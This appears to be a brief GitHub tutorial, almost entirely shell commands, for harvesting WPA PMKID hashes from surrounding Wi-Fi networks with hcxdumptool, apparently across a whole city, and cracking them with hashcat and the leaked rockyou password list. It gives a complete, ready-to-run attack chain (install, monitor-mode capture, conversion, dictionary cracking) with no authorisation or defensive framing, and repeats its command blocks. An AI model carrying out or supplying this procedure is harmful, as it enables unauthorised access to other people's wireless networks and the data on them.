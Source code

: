 
``` 
sudo apt-get update
sudo apt-get install libpcap-dev libcurl4-openssl-dev libssl-dev
sudo apt install hcxtools
cd Desktop/
airmon-ng check kill
hcxdumptool -o yourcityname.pcapng -i wlan0 --enable_status 1
hcxpcaptool -E essidlist -I identitylist -U usernamelist -z yourcitynameoutputs.16800 yourcityname.pcapng
``` 
``` 
sudo apt-get update
sudo apt-get install libpcap-dev libcurl4-openssl-dev libssl-dev
sudo apt install hcxtools
``` 
``` 
cd Desktop/
airmon-ng check kill
hcxdumptool -o yourcityname.pcapng -i wlan0 --enable_status 1
``` 
##### Once you have collected some PMKIDs, you can press CTRL+C on your keyboard. 
#### *The next step is to convert the output.*

``` 
hcxpcaptool -E essidlist -I identitylist -U usernamelist -z yourcitynameoutputs.16800 yourcityname.pcapng
```

hashcat -m 16800 yourcitynameoutputs.16800 -a 0  --kernel-accel=1 -w4 --force /home/kali/github/SecLists/Passwords/Leaked-Databases/rockyou.txt 
